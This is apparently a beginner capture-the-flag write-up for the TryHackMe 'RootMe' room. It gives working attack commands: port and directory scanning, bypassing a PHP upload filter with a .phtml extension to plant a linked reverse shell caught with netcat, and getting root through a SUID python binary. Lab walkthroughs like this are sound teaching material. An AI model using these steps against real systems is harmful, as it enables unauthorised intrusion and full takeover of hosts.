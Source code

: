 # RootMe

[<img src=".Images/rootme.png" width="75">](https://tryhackme.com/room/rrootme)

*"A ctf for beginners, can you root me?"* -[ReddyyZ](https://tryhackme.com/p/ReddyyZ)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

First of all, we can do nmap scan.

`nmap -A -oN rootme.nmap <ip>`

![rootme-2](.Images/rootme-2.png)

As you can see, SSH service is running on port 22 and Apache web server is running on port 80. For the web server, we can do directory scan with the gobuster. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list for this scan.

`gobuster dir -u http://<ip>/ -w common.txt`

![rootme-3](.Images/rootme-3.png)

Especially the /panel and /upload directories look interesting. If we check these directories, we will see that the uploads directory is empty, and the panel directory is a page that allows us to upload files.
******

## [Gain Shell]

If we can access the files we uploaded here from the uploads directory, we can try the [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Let's try uploading a php file.

`touch gev.php`

![rootme-4](.Images/rootme-4.png)

We have learned that files with .php extensions are not allowed. To get rid of this problem, we can do a small search of duckduckgo. We can do a search like ["php file extensions"](https://www.lifewire.com/php-file-4138559). I found something in this search result: **"Some PHP Source Code files might use a different file extension like .PHTML, PHP3, PHP4, PHP5, PHP7 or PHPS."** We can try any one we want. I will try the phtml extension.

![rootme-5](.Images/rootme-5.png)
![rootme-6](.Images/rootme-6.png)

Yes it worked. Let's download [php_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), write our own ip address and port and upload it to the site. If we run the file we uploaded from the /uploads directory while listening to the port with nc, we will get a shell.

`nc -nvlp <port>`

![rootme-7](.Images/rootme-7.png)
![rootme-8](.Images/rootme-8.png)

******

## [Privilege Escalation]

First of all, let's make shell more useful.

`export TERM=xterm`
`python -c 'import pty; pty.spawn("/bin/bash")'`

![rootme-9](.Images/rootme-9.png)

Now we can find the SUID files.

`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null | grep /bin`

![rootme-10](.Images/rootme-10.png)

We found /usr/bin/python in SUID files. Let's take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/python/). We can use SUID section.

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![rootme-11](.Images/rootme-11.png)

And now we are root user.
